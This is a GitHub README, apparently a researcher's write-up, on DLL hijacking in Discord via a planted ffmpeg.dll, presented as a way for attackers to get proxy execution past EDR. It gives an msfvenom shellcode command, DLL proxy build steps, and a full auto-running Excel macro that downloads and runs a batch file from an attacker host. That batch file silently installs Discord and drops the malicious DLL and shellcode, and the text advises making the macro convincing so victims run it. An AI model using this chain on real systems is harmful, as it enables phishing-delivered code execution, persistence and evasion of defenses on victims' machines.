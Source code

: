 # Discord DLL hijacking / Automation via Excel Macros. 
This is a simple quick example of DLL hijacking enabling proxy execution for the Discord Binary. This can be beneficial for attackers requiring proxy execution to bypass EDR

## Note
I submitted this vuln to discord via their hackerone program. They choose to not recognize DLL hijacking unless it's related to the discord installer binary. 
Similarly to chrome: https://chromium.googlesource.com/chromium/src/+/master/docs/security/faq.md#why-arent-physically_local-attacks-in-chromes-threat-model

I understand this too an extent, but they don't seem to make any attempt to verify these DLL's or load them using best practices as directed by Microsoft: 
https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1

</br>

## What is DLL hijacking and why is it useful? 

DLL hijacking has been around a very long time. The severity of these attacks is dependent on a variety of factors, primarily application context. 
Microsoft gives a good summary: 

"When an application dynamically loads a dynamic link library (DLL) without specifying a fully qualified path, Windows tries to locate the DLL by searching a well-defined set of directories. If an attacker gains control of one of the directories, they can force the application to load a malicious copy of the DLL instead of the DLL that it was expecting. These attacks are known as “DLL preloading attacks” and are common to all operating systems that support dynamically loading shared DLL libraries. The effect of such attacks could be that an attacker can execute code in the context of the user who is running the application. When the application is being run as Administrator, this could lead to a local elevation of privilege." 

-> Source: https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1 

Why should we care? 
First off, gaining execution context under a trusted application is useful for proxy execution of malicious payloads. Pending the AV/EDR, payloads can be executed in an'trusted' context. Adversaries can also use this technique for persistence mechanisms.

Discord in some instances requires Administrator privs when Push-To-Talk is overidden by other Administrative applications. This combined with it's popularity peaked my interest.


## Analyzing with Procmon 

Doing a basic filter results in ALOT of misconfigurations for search based DLL issues. What interested me was the 'ffmpeg.dll' I noticed elsehwhere in the procmon dump. This appears to be a common DLL used by a variety of applications including whatsapp. 

![image](https://user-images.githubusercontent.com/46195001/231240214-d6421d61-a458-4104-8591-03f38f26d2d4.png)

</br> 


## Generate a payload 
Generate some shellcode to your liking. My POC: msfvenom -f raw -o pop.bin -p windows/exec cmd="cmd.exe /k whoami" exitfunc=thread --bad-chars '\x00\x20\' --smallest

## Generating a malicious DLL 

Using this great repository we can create our own DLL utilizing pragma comments to replicate functions: 
https://github.com/Flangvik/SharpDllProxy 

![dllproxy](https://user-images.githubusercontent.com/46195001/232322708-9f158799-c850-4a69-b69b-ad7372cbec1b.png)

<br> 
This will output two files, .c & an DLL 'tmpXYZ.dll'. Simply create a new DLL project in visual studio and replace the source with the output from DLLProxy. 
Once you've compiled it, copy your DLL, the tmpXYZ.dll (rename it to ffmpeg.dll) and your shellcode.bin into "C:\Users\<user>\AppData\Local\Discord\app-1.0.9012\". 

## Result 
![popped](https://user-images.githubusercontent.com/46195001/232325180-3ec3af99-d5f9-4c8c-935c-fd7d3c0ece51.png)

Running Discord.exe executes a shellode. Great! Interestingly Discord itself crashes out with no visual artifacts but our cmd.exe process remains. This is ideal if we drop discord ourselves as a persistence mechanism without user knowledge. 
</br>

## Weaponizing 
It's quite simple to weaponize this DLL hijacking in an automated fashion. Below is a basic macro that downloads a batch file to execute installing discord and download the malicious files. 

The kicker for this method: 
- Discord installs silently, no on screen artifacts. 
- Discord uses it's own scheduled task on reboot giving us code exec.
- Using ffmpeg.dll will give us code execution and crash the legitimate discord process with zero notification to the user. Likely to see WerFault & MiniDumps however. 


</br>

### Excel Macro 

```
Private Sub Workbook_Open()

Dim url, downloadPath, batPath, shell, winHttpReq
url = "http://192.168.120.128/Update.txt"
downloadPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local\Update.bat"
batPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local"

' Create a WinHttpRequest objects
Set winHttpReq = CreateObject("WinHttp.WinHttpRequest.5.1")

' Open a connection to the specified URL
winHttpReq.Open "GET", url, False

' Send the HTTP request and download the file
winHttpReq.Send
If winHttpReq.Status = 200 Then
    Dim stream
    Set stream = CreateObject("ADODB.Stream")
    stream.Type = 1 ' Binary
    stream.Open
    stream.Write winHttpReq.ResponseBody
    stream.SaveToFile downloadPath, 2 ' Overwrite
    stream.Close
End If

' Execute the downloaded BAT file
Set shell = CreateObject("WScript.Shell")
shell.Run batPath & "\Update.bat"

Set shell = Nothing
Set winHttpReq = Nothing


End Sub
```

### Seemless discord install via .bat file. 
```
@echo off
set DOWNLOAD_URL=https://dl.discordapp.net/distro/app/stable/win/x86/1.0.9012/DiscordSetup.exe
set DOWNLOAD_DLL=http://192.168.120.128/ffmpeg.dll 
set DOWNLOAD_BIN=http://192.168.120.128/pop.bin
set DOWNLOAD_tmp=http://192.168.120.128/tmp108E.dll
set DOWNLOAD_LOCATION=C:\Windows\Temp\Update.exe
set EXECUTE_LOCATION=C:\Windows\Temp\

set COPY_LOCATION=%LOCALAPPDATA%\Discord\app-1.0.9012\
set DL_DLL=%LOCALAPPDATA%\Discord\app-1.0.9012\ffmpeg.dll
set DL_tmp=%LOCALAPPDATA%\Discord\app-1.0.9012\tmp108E.dll
set DL_bin=%LOCALAPPDATA%\Discord\app-1.0.9012\pop.bin


bitsadmin /transfer myDownloadJob /priority normal %DOWNLOAD_URL% %DOWNLOAD_LOCATION%
start "" "%EXECUTE_LOCATION%\Update.exe" --silent
timeout /t 10
bitsadmin /transfer myDownloadJob1 /priority normal %DOWNLOAD_DLL% %DL_DLL%
bitsadmin /transfer myDownloadJob2 /priority normal %DOWNLOAD_BIN% %DL_bin%
bitsadmin /transfer myDownloadJob3 /priority normal %DOWNLOAD_tmp% %DL_tmp%
```

### Server setup 
Enable apache 2 and copy across the files from below (I forgot the bat file in the ss). 
![image](https://user-images.githubusercontent.com/46195001/232535184-26456e4b-9a92-439e-b8e1-5c1405b792d1.png)

Create your macro in a convincing manner, get them to execute it. 

### Result... 
Popped a shell .. :) 
 
![image](https://user-images.githubusercontent.com/46195001/232533881-7fd1d90a-1974-4672-afc6-be0f802171a1.png)




